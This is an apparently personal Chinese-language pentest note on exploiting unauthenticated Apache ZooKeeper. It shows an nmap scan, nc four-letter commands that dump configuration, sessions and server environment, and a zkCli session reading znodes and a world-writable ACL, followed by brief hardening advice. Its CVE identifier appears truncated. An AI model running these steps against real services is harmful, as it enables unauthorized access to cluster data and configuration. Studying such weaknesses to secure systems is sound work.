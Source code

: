 ```yaml
---
title: Zookeeper
category:
- [Kali, Exploit]
tags:
  - null
date: 2020-12-04 20:23:24
top:
updated:
---
```


`Zookeeper`是一个分布式协调服务的开源框架，主要解决分布式集群中应用系统的一致性问题（避免同时操作同一数据造成脏读问题），本质上是一个`分布式的小文件存储系统`。

Zookeeper=`文件系统`+`监听通知机制`

Zookeeper提供的常见服务：
- `命令服务` 按名称标识集群中的节点，类似于DNS
- `配置管理` 加入节点的最近的和最新的系统配置信息
- `集群管理` 实时在集群和节点状态加入/离开节点
- `选举算法` 选举一个节点作为协调目的的leader
- `锁定和同步服务` 在修改数据的同时锁定数据
- `高度可靠的数据注册表` 即使在多个节点关闭时也可获得数据


## 信息收集
```zsh
sudo nmap 10.196.20.52 -Pn -T4 -sS -p 2181
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-06 15:33 CST
Nmap scan report for 10.196.20.52
Host is up (0.13s latency).

PORT     STATE SERVICE
2181/tcp open  eforward

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
```


## Zookeeper未授权访问 CVE-2014-085

### 获取服务信息
1. conf命令-获取配置信息  
   `echo conf | nc 10.196.20.52 2181 `
2. cons命令-获取会话详细信息  
	`echo cons | nc 10.196.20.52 2181 | more`
3. dump命令-输出未处理的会话和leader节点  
	`echo dump | nc 10.196.20.52 2181 | more`
4. envi命令-输出服务器详细信息  
	`echo envi | nc 10.196.20.52 2181 `
5. stat命令-输出统计信息  
	`echo stat | nc 10.196.20.52 2181`

![envi
](https://img-blog.csdnimg.cn/20200511110602545.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0Fhcm9uX01pbGxlcg==,size_16,color_FFFFFF,t_70)### zkCli客户端连接操作
```
zkCli -server 10.196.20.51:2181                                                                          
Connecting to 10.196.20.51:2181
Welcome to ZooKeeper!
JLine support is enabled
[zk: 10.196.20.51:2181(CONNECTING) 0]
WATCHER::

WatchedEvent state:SyncConnected type:None path:null

[zk: 10.196.20.51:2181(CONNECTED) 0] ls /
[admin, brokers, cluster, config, consumers, controller, controller_epoch, isr_change_notification, latest_producer_id_block, log_dir_event_notification, zookeeper]
[zk: 10.196.20.51:2181(CONNECTED) 1] get /controller
{"version":1,"brokerid":3,"timestamp":"1604393865608"}
[zk: 10.196.20.51:2181(CONNECTED) 2] get
get                    getAcl                 getAllChildrenNumber   getEphemerals
[zk: 10.196.20.51:2181(CONNECTED) 2] getAcl /
'world,'anyone
: cdrwa
[zk: 10.196.20.51:2181(CONNECTED) 3]
```

### 漏洞修复
1. 设置防火墙策略限制 IP 访问
1. 不要将 zookeeper 暴露在外网
1. 设置用户认证和 ACL
